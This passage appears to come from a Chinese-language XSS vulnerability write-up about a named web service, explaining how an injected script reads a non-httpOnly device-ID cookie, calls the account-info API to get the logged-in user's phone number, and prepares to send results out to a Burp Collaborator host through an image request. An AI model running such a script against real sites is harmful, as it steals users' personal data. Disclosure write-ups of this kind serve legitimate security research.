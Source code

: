     这样我们可以将复杂的利用写入xss.js，并且上传到自己的https服务器上，请将payload中的`https://my.domain.com/xss.js`换成自己的服务器地址。

2. 利用脚本构造

    观察到用户在登录时，深井会通过get请求来获取当前登录用户的信息`https://sowellwell.com/w/v1/account/info`，信息中包含用户的手机号码。
    ![phone](/assets/uu_images/phone.png)
    其中，Header中包含`Identifier`字段，需要此字段才能完成合法请求。而该字段等于cookie的`jssdk_deviceid`字段，该字段不受httpOnly保护，因此可以直接通过cookie获取。那么我们可以在利用脚本中，代替用户发送该url，从而获取登录并且浏览到xss页面的用户信息。构造利用脚本如下：

        // burpsuite collaborator url
        const api_burp = 'https://e9op59j1geov80qd4hiuakntnktch3fr4.oastify.com'

        // 获取cookie信息
        const getCookieValue = (name) => (
            document.cookie.match('(^|;)\\s*' + name + '\\s*=\\s*([^;]+)')?.pop() || ''
        )

        // 构造发送请求
        const myFetch = async (url, token) => {
            let data = await fetch(url, {
                method: 'GET',
                headers: {
                    'Identifier': token,
                },
            })
            let res = await data.json();
            return res
        }

        // 通过img src来向burpsuite collaborator url外送敏感新信息
        const justSend = async url => {
            var Img = new Image
            Img.src = url
        }
